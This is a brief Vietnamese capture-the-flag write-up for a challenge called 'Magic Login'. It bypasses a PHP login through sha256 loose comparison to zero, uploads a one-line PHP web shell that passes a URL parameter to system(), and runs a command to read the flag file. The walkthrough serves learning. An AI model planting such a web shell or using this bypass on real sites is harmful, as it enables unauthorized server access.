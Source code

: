 # Magic Login

Khi chúng ta truy cập vào chall  ta thấy được 1 một form đăng nhập
Chech thử source code ta thấy được code cho phần đăng nhập

![alt text](image.png)

Khi chúng ta đăng nhập được chúng ta sẽ được chuyển đến một trang download
Chúng ta thấy được rằng password được encode sha256 và check điều kiên $pas == 0

Sau một hồi tìm kiếm mình tìm được một số đoạn cipher có thể mã hóa sha256 cho ra giá trị 0

![alt text](image-1.png)

Sau khi đặp nhập vào ta thấy một form up load file
Ta thử up load một file đơn giản
```
<?php
system($_GET['cmd']);
?>
```
Sau khi upload file lên ta chạy thử một command là ```?cmd=cat /flag.txt``` và láy được flag

*Flag: CHH{PHP_m4g1c_tr1ck_0lD_but_g0lD_d59e4abafcf09eeadffe5cad002a1126}*